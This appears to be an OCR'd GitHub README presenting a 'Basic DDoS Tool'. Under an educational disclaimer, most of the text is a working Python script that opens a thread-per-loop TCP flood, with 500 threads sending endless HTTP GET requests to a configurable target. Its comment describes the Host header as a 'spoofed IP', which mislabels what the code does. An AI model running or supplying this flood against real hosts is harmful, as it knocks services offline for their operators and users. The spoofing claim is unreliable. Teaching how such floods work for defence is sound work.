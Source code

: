  Basic DDoS Tool

DISCLAIMER: This is strictly an educational resource. Unauthorized use of this code against any network or system is illegal and unethical. Use only on systems you own or have explicit permission to test.

 Overview
This Python script demonstrates a basic Denial-of-Service (DoS) attack technique using:
- TCP socket connections
- Multi-threading (500 concurrent threads)
- HTTP request flooding

Purpose: To help cybersecurity students understand how simple DoS attacks work at a technical level and to study defensive countermeasures.

Technical Details
python
import threading
import socket

Configuration
target = ''   # TARGET IP (USE ONLY YOUR OWN SYSTEMS)
port =                 # HTTP port
fake_ip = '' # Spoofed IP header

def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        # Sends spoofed HTTP request
        s.send(f"GET / HTTP/1.1\r\nHost: {fake_ip}\r\n\r\n".encode('ascii'))
        s.close()

Launch attack threads
for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()
